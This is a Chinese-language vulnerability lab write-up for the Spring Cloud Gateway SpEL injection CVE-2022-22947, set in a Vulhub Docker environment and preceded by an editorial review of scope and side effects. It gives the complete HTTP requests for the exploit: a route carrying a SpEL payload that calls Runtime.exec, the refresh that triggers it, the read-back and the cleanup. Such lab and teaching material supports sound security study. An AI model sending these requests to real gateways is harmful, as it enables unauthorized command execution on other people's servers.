





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.1.0及&lt;=3.0.6，实验3.1.0；需gateway管理端点允许写/刷新

代码与实验材料：创建route→refresh→GET结果→DELETE完整，比多数条目有清理；缺删除后的再次刷新验证

来源证据范围：官方Tanzu和wya原研究直链，较好

- **操作与副作用边界（1）**：删除定义不等于运行缓存彻底恢复；依据：已refresh应用的恶意路由删除后未再次refresh/核对缓存，可能留下活动状态。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **操作与副作用边界（2）**：路由名碰撞与副作用需说明；依据：固定hacktest可能覆盖现有配置，refresh可再次执行其它定义；没有记录原状态。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（3）**：缺安全版本；依据：影响和实验有，但修复仅外链，权限前提应从访问API进一步细化到写操作。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Cloud Gateway Actuator API SpEL 表达式注入命令执行 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## 环境搭建

Vulhub 执行如下命令启动一个使用了 Spring Cloud Gateway 3.1.0 的 Web 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到演示页面，这个页面的上游就是 example.com。




## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```




然后，发送如下数据包应用刚添加的路由。这个数据包将触发 SpEL 表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```




发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```




最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```




## 开源 POC

- Xray
- https://github.com/chaosec2021/CVE-2022-22947-POC


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
